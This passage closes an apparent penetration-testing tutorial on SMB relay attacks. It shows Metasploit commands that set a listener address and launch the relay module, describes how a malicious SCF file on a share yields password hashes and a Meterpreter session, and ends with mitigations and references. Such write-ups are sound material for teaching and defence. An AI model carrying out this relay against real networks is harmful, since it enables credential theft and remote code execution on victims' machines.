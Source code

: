 `set LHOST` `192.168``.``1.171`

`exploit`

![Metasploit - SMB Relay Module](https://pentestlab.files.wordpress.com/2017/12/metasploit-smb-relay-module.png?w=760)

Metasploit – SMB Relay Module

An SMB server will established which will authenticate with the target by using the username and the password hash, deliver a payload on a writeable share, execute the payload with the rights of the user as a service, perform the clean up and give a Meterpreter session.

![Metasploit - SMB Relay Attack](https://pentestlab.files.wordpress.com/2017/12/metasploit-smb-relay-attack.png?w=760)

Metasploit – SMB Relay Attack

Interaction with the existing sessions can be performed with the **sessions** command.

![Metasploit - SMB Relay Sessions](https://pentestlab.files.wordpress.com/2017/12/metasploit-smb-relay-sessions.png?w=760)

Metasploit – SMB Relay Sessions

## Conclusion

This technique exploits something that is really common in all the networks like shares in order to retrieve password hashes and get meterpreter shells. The only requirement is that the user needs to browse the share that contains the malicious SCF file. However these attacks can be prevented by performing the following:

-   Use of Kerberos Authentication and SMB Signing
-   Disallow write permissions in file shares for unauthenticated users
-   Ensure that NTLMv2 password hash is used instead of LanMan

## References

-   [https://github.com/CoreSecurity/impacket](https://github.com/CoreSecurity/impacket)
-   [https://pen-testing.sans.org/blog/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python](https://pen-testing.sans.org/blog/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python)
-   [https://1337red.wordpress.com/using-a-scf-file-to-gather-hashes/](https://1337red.wordpress.com/using-a-scf-file-to-gather-hashes/)
-   [http://carnal0wnage.attackresearch.com/2009/04/using-metasploit-smb-sniffer-module.html](http://carnal0wnage.attackresearch.com/2009/04/using-metasploit-smb-sniffer-module.html)
-   [https://room362.com/post/2016/smb-http-auth-capture-via-scf/](https://room362.com/post/2016/smb-http-auth-capture-via-scf/)
-   [https://blog.rapid7.com/2008/11/11/ms08-068-metasploit-and-smb-relay/](https://blog.rapid7.com/2008/11/11/ms08-068-metasploit-and-smb-relay/)
-   [https://cqureacademy.com/blog/penetration-testing/smb-relay-attack](https://cqureacademy.com/blog/penetration-testing/smb-relay-attack)